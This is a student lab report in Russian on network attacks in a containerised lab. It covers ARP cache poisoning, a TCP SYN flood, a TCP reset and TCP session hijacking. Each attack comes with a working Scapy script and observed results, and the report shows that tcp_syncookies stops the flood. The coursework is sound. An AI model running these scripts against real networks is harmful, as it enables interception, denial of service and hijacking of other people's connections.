# Лабораторная работа №1: Атаки на ARP и TCP

## Задача 1.1. С использованием ARP-запроса

### Описание

На хосте M создайте пакет запроса ARP, чтобы сопоставить IP-адрес B с MAC-адресом M. Отправьте пакет A и проверьте, произошла атака или нет.

### Код скрипта

```python
#!/usr/bin/python3 
from scapy.all import * 

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst='ff:ff:ff:ff:ff:ff') 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=1) 

pkt = eth / arp 
sendp(pkt)
```

## Результат

### 1. В результате атаки был выполнен скрипт scapy, направленный на хост А

На скрине видно терминал злоумышленника, выполняющего скрипт. Мы видим, что мак адрес машины злоумышленника - **02:42:0a:03:00:25**, а его ip-адрес - **10.3.0.37**


**(Рис. 1.1 - Скрин машины злоумышленника)**

### 2. На данном скрине видно терминал жертвы

Первая команда arp -n выполнялась ДО того, как был выполнен скрипт с хоста злоумышленника. Мы видим, что arp кэш не содержит никакой информации.
Вторая команда arp -n выполнена ПОСЛЕ того, как был выполнен скрипт. Видим, что в arp кэше появилась запись, которая соотносит ip адрес **10.3.0.3** (который является адресом хоста B) с mac-адресом хоста злоумышленника **02:42:0a:03:00:25**.


**(Рис. 1.2 - Скрин машины жертвы А)**

Таким образом, можно сделать вывод о том, что атака произведена успешно и в arp-кэше хоста А теперь хранится запись о том, что mac-адрес хоста B соответствует ip-адресу хоста M и в последующем, ответы с хоста А будут отправляться на ip-адрес хоста M.

## Задача 1.2. С использованием ответа ARP
### (скрины уже из другого терминала, потому что пришлось пересесть с ubuntu на wsl и перенастраивать все заново)

На хосте M создайте ответный пакет ARP, чтобы сопоставить IP-адрес B с MAC-адресом M. Отправьте пакет A и проверьте, успешна атака или нет.

Попробуйте провести атаку по следующим двум сценариям и сообщите о результатах:

IP-адрес B уже находится в кеше A.
IP-адрес B отсутствует в кеше A. Вы можете использовать команду arp -d a.b.c.d, чтобы удалить запись кэша ARP для IP-адреса a.b.c.d.

**Код скрипта**:

```python
#!/usr/bin/python3 
from scapy.all import *

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst=A_mac) 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=2) 

pkt = eth / arp 
sendp(pkt)
```

### Сценарий 1: IP-адрес B уже находится в кеше A


**Для того, чтобы ip адрес машины B уже был в ARP кэше - просто пингуем машину A с машины B.**

IP-адрес машины B - **10.3.0.3**.
MAC-адрес - **02:42:0a:03:00:03**

#### Cостояние машины А (после пинга)


**Видим, что ip-адрес машины А - **10.3.0.2**, в кэше лежит запись о соответствии ip и mac-адресов хоста B (реальные)**

#### Пробуем атаку с хоста M

Проверяем адреса хоста:

ip: **10.3.0.37**
mac: **02:42:0a:03:00:25**


**Запускаем скрипт..**

#### Проверяем arp кэш на хосте A

Видим, что mac-адрес для ip-адреса **10.3.0.3** поменялся на mac-адрес хоста злоумышленника.



Таким образом, делаем вывод, что атака произведена успешно и arp кэш на хосте A был перезаписан

### Сценарий 2: IP-адрес B отсутствует в кеше A

#### Cостояние машины А


**Очищаем arp кэш на хосте А**


**Выполняем отправку ARP-ответа c хоста M...**


**После отправки ARP-ответа с хоста злоумышленника, проверяем кэш хоста А и видим, что в ARP кэше хоста А не появилось новых записей.**

Таким образом, делаем вывод о том, что атака на ARP-кэш путем отправки ARP-ответа работает только в том случае, когда в кэше атакуемого хоста уже есть запись об IP-адресе, mac которого мы хотим подменить.

## Задача 1.3. С использованием пакета обновления ARP

На хосте M создайте пакет обновления ARP и используйте его для сопоставления IP-адреса B с MAC-адресом M. Запустите атаку по тем же двум сценариям, что описаны в Задаче 1.2.

**Код скрипта**:

```python
#!/usr/bin/python3 
from scapy.all import *

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst='ff:ff:ff:ff:ff:ff') 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst='ff:ff:ff:ff:ff:ff', pdst=B_ip,
          op=1) 

pkt = eth / arp 
sendp(pkt)
```

### Сценарий 1: IP-адрес B уже находится в кеше A

#### Исходное состояние хоста A

В arp-кэше лежит корректная запись о хосте B


Отправляем пакет обновления ARP с хоста M хосту А...


Проверяем ARP-кэш на хосте А и видим, что запись успешно подменилась.


**Вывод:**
При сценарии атаки с использованием пакета обновления ARP - атака производится успешно, если в ARP-кэше атакуемого хоста уже содержится ARP запись об ip-адресе, для которого мы хотим подменить MAC-адрес.

### Сценарий 2: IP-адрес B отсутствует в кеше A

Отправляем пакет обновления ARP с хоста M хосту А...


Проверяем ARP-кэш хоста А и видим, что новых записей не появилось


**Вывод:**
В случае, если в кэше атакуемого хоста отсутствует запись об ip-адресе, для которой мы хотим подменить MAC-адрес, то атака не будет произведена.

# Задание 2.1.1: TCP SYN flood attack

Задание пришлось выполнять на виртуальной машине с KALI linux, так как на WSL с запущенными в нем docker-контейнерами не получалось сэмулировать атаку. По всей видимости к такой среде существуют проблемы при отправке пакетов через виртуальный сетевой интерфейс внутри Docker при работе внутри WSL.

При выполнении задания на Kali Linux никаких проблем с эмуляцией данной атаки не возникло.

В выполнении задания участвовало 3 из 4х машин.

- **Seed-attacker** - машина злоумышленника ()
- **Victim** - машина жертвы (**IP 10.3.0.4**)
- **Host A** - Для попытки подключения по telnet к хосту жертвы (**IP 10.3.0.2**)

## Шаг 1

Подготавливаем машину жертвы для атаки (отключаем **tcp_syncookies** и задаем параметр **net.ipv4.tcp_synack_retries=50** для того, чтобы дольше удерживать полузакрытые соединения и проще было сэмулировать атаку)



## Шаг 2

Выполняем скрипт на машине злоумышленника.
Отправляем SYN пакеты с рандомных IP-адресов и рандомных портов на IP-адрес жертвы (**10.3.0.4**) на **23** порт.

### Код скрипта:

```python
#!/usr/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.3.0.4")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp
  
while True:
  pkt[IP].src = str(IPv4Address(getrandbits(32)))
  pkt[TCP].sport = getrandbits(16)
  pkt[TCP].seq = getrandbits(32)
  send(pkt, iface = "eth0", verbose = 1)  
```

### Шаг 3

Производим попытку подключения к хосту жертвы со стороннего хоста (**Host A**)



Видим, что подключение к хосту подвисло в состоянии **trying...**.

Таким образом, получилось выполнить TCP SYN flood атаку на устройство жертвы при соблюдении некоторых допущений, связанных с ослабленными настройками безопасности на стороне хоста жертвы.

## Задание 2.1.2 Возвращаем настройку **tcp_syncookies** в исходное состояние и пробуем повторить атаку

### Шаг 1

Возвращаем настройку **tcp_syncookies** в состояние **1**, а так же очищаем кэш tcp командой **ip tcp_metrics flush**


### Шаг 2

Выполняем скрипт на машине злоумышленника...
Действие аналогично шагу 2 из 2.1.1

### Шаг 3

Производим попытку подключения к хосту жертвы со стороннего хоста (**Host A**)



Видим, что подключение проходит успешно.

Таким образом, можно сделать вывод, что настройка **tcp_syncookies**, позволяет устанить уязвимость на TCP SYN flood атаку.

## Задача 2.2. TCP reset attack

**Код скрипта**:

```python
#!/usr/bin/env python3
from scapy.all import IP, TCP, send, ls

ip = IP(src="10.3.0.3", dst="10.3.0.2")
tcp = TCP(sport=42228, dport=23, flags="R", seq=196944028)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```

### Подготовка к атаке

В виртуальной машине Kali Linux был запущен docker-контейнер для эмуляции атаки по сбросу TCP соединения. Для прослушивания траффика между хостами используем Wireshark.

### Шаг 1

Хост B (**10.3.0.3**) подключается по telnet к хосту А (**10.3.0.2**)

### Шаг 2

В Wireshark находим последний TCP пакет, который был отправлен с хоста B на хост A. Нам необходимо опредилить sport (**42228**) и sequence number (raw) (**196944028**), который мы подставляем в наш скрипт.

* На этом шаге возникла путаница. Казалось что надо отправлять в качестве параметра **seq** значение из последнего пакета sequence number + 1. Однако, сессия telnet не сбрасывалась.
Успешный сброс соединения был, когда я передал sequence number в качестве параметра seq.

### Шаг 3

Выполняем скрипт с машины злоумышленника

### Шаг 4

Проверяем соединение telnet... При попытке что то написать в командной строке - соединение оборвалось. TCP reset attack успешно выполнена.



## Задача 2.3. TCP Session Hijacking attack

Подключиться к удаленному компьютеру и перенаправить входные и выходные соединения оболочки целевой системы, чтобы злоумышленник мог получить удаленный доступ к ней.

**Код скрипта**:

```python
#!/usr/bin/env python3
from scapy.all import IP, TCP, send, ls

ip = IP(src="10.3.0.2", dst="10.3.0.3")

data = "\r Hello, victim \r"

ack = 2875355672
seq = 1492185207

tcp = TCP(sport=23, dport=50456, flags="PA", seq=seq, ack=ack)
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

В данном задании мы подключаемся по telnet с хоста B (**10.3.0.3**) к хосту A (**10.3.0.2**), а злоумышленник перехватывает tcp-соединение и передает в сформированном tcp-пакете на порт telnet сообщение, которое отобразится у клиента.
Данную атаку можно выполнить в обе стороны. В нашем примере мы эмулируем отправку текстового сообщения, которое будет выведено в терминал клиента, но так же можем и сэмулировать пакет с какой-нибудь командой, отправленный в сторону сервера и эта команда будет выполнена на стороне сервера.

